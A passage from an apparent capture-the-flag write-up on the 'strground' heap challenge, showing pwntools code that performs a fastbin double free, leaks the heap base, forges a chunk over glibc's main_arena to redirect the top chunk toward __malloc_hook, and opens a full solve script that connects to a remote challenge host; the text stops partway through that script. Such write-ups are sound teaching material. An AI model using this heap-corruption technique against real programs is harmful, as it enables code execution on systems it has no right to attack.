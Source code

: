 Note: There was a slight problem here. Libc's leak offset was different on remote so I just used the docker provided to find the correct offset.

{% highlight python %}
    delete(3)
    delete(1)
    delete(2)
    delete(1)
    heap_leak = print_chunk(1)
    heap_leak = u64(heap_leak + b"\x00\x00") - 0x110
    log.info(f"heap base: {hex(heap_leak)}")

    add(p64(libc.sym['main_arena'] + 21) + b"\x00" * (0x40 - 8))
{% endhighlight %}

Ignore the heap_leak, the important part is the double free on chunk 1. I freed chunk 2 between the double frees on chunk 1 to bypass a fastbin double free check. 

Let's take a look at the heap now:

![heap5](/img/strground-writeup/heap5.png)

Look at 0x50 fastbin. It has a chunk at `main_arena+21`. This is the chunk that we will use to overwrite the `top_chunk` pointer. Now when we allocate chunks of size 0x50, it will eventually give us one over `main_arena`.

Here is the chunk data that will overwrite the `main_arena`:
{% highlight python %}
    chungus = b"\x00" * 3 + p64(0) * 7 + p64(libc.sym['__malloc_hook'] - 0x23) + b"\x00" * (0x40 - 8 * 8 - 3)
{% endhighlight %}

Full solve script:
{% highlight python %}
#!/usr/bin/env python3

from numpy import delete
from pwn import *
from pyrsistent import b

exe = ELF("./chall_patched")
libc = ELF("./libc-2.30.so")
ld = ELF("./ld-2.30.so")

context.binary = exe
context.terminal = ["tmux", "splitw", "-h"]
#context.log_level = "DEBUG"

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("34.89.210.219", 30322)

    return r

r = conn()

